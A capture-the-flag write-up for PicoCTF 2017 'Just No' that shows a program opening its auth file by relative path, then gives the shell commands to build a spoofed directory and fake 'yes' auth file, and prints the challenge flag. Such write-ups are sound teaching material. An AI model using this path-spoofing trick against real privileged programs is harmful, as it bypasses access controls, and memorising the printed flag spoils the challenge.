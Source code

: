 # PicoCTF_2017: Just No

**Category:** Binary Exploitation
**Points:** 40
**Description:**

>A program at /problems/7e8b456c98db60be9a33339ab4509fca has access to a flag but refuses to share it. Can you convince it otherwise?

**Hint:**

>Check out the difference between relative and absolute paths and see if you can figure out how to use them to solve this challenge. Could you possibly spoof another auth file it looks at instead...?

## Write-up
Hmm, let's get the flag.

    $ /problems/7e8b456c98db60be9a33339ab4509fca/justno
    auth file says no. So no. Just... no. 

Damn it. Let's take a look at the [source code](just-no.c). Wait.

    FILE* authf = fopen("../../problems/7e8b456c98db60be9a33339ab4509fca/auth","r")

Haha! Relative paths! Now we can simply spoof a directory structure and make a fake auth file.

    $ cd ~
    $ mkdir problems
    $ mkdir problems/7e8b456c98db60be9a33339ab4509fca
    $ cd problems/7e8b456c98db60be9a33339ab4509fca
    $ echo "yes" > auth
    $ /problems/7e8b456c98db60be9a33339ab4509fca/justno
    Oh. Well the auth file doesn't say no anymore so... Here's the flag: ddf649b13d560409d2649dc06f2a43ee

Therefore, the flag is `ddf649b13d560409d2649dc06f2a43ee`.
